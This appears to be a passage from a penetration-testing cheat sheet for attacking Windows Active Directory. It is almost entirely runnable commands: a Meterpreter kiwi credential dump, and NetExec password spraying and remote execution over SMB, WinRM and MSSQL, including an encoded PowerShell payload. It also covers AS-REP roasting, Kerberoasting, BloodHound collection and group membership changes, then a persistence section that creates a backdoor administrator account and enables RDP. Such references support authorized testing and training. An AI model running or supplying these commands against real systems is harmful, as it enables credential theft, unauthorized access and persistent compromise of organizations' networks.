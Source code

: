 ```bash
meterpreter> load kiwi
meterpreter> creds_msv
```

### AD Exploitation

```bash
$ nxc smb $IP -u users.txt -p 'password' -d domain.name --continue-on-success
$ nxc smb $IP -u user -p 'password' -d domain.name
$ nxc smb $IP -u users.txt -p pass.txt -d domain.name --continue-on-success
$ proxychains nxc smb $IP -u Administrator -p password -x whoami --local-auth
$ proxychains nxc winrm $IP -u Administrator -p password -x whoami --local-auth
$ nxc winrm $IP -u users.txt -p 'password' -d domain.name --continue-on-success
$ nxc winrm $IP -u user -p 'password' -d domain.name
$ nxc winrm $IP -u users.txt -p pass.txt -d domain.name --continue-on-succes
$ proxychains nxc mssql -d domain.name -u user -p password -x "whoami" $IP

# SMB Execute commands on behalf of other users
$ nxc smb $IP -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
$ netexec smb $IP -u Username -p Password -X 'powershell -e <base64_encoded_payload>'

# Dump file for bloodhound
$ nxc ldap $IP -u user -p pass --bloodhound -ns <ns-ip> --collection All

# AS-REP ROAST
$ nxc ldap $IP -u user -p '' --asreproast output.txt
$ nxc ldap $IP -u user.txt -p '' --asreproast output.txt

# Kerberoast
$ nxc ldap $IP -u user -p pass --kerberoasting output.txt
```

```powershell
PS C:\> Add-DomainGroupMember -Identity 'SQLManagers' -Members 'user'
PS C:\> Get-NetGroupMember -GroupName 'SQLManagers'
```

## Persistence

```powershell
PS C:\> net user <user> <password> /add
PS C:\> net localgroup Administrators <user> /add
PS C:\> net localgroup "Remote Management Users" <user> /add
PS C:\> net localgroup "Remote Desktop Users" <user> /add
PS C:\> Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
PS C:\> Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

## Lateral Movement
